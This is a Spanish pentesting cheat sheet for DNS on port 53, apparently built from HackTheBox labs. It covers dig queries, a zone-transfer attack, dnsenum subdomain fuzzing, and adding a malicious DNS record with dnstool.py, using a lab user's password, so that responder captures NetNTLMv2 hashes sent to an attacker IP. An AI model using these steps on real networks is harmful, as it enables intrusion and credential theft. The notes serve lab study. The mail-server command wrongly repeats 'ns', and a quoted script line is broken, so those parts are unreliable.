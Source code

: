 # DNS - 53

## Uso de dig

### Consulta DNS Simple

```
dig @10.10.10.192 blackfield.local
```

### Enumeración nameservers

```
dig @10.10.10.192 blackfield.local ns
```

### Enumeración servidores de correo

```
dig @10.10.10.192 blackfield.local ns
```

### Ataque de transferencia de zona

```
dig axfr @10.10.10.192 blackfield.local
```

## Uso de dnsenum

### Fuzzing de subdominios

```
dnsenum --dnsserver 10.10.10.224 --threads 30 -f /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt realcorp.htb
```

### Abuso DNS Records

En el siguiente ejemplo se muestra un script de PowerShell que itera por dominios que empiezan por `web` seguido de un wildcard (*)

```
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

Es posible crear un nuevo DNS Record para que apunte al equipo atacante y recibir la petición y con herramientas como `responder` obtener un hash NetNTLMv2

```
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webrubbx -a add -t A -d 10.10.16.6 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```